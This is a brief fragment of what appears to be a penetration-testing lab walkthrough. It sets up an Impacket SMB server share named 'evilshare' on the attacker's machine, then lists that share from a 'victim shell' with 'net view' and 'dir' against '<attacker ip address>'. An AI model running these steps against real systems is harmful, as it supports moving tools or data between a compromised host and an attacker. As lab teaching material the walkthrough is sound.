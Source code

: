 - Run smbserver.py in impacket 
```
python /path/to/imacket/examples/smbserver.py evilshare . 
```

![](./IMG/41.png)

- On victim shell, execute net view to check the directory in smb
```
net view \\<attacker ip address>
```

![](./IMG/42.png)

- Check directory content 
```
dir \\<attacker ip address>\<dir name>
```
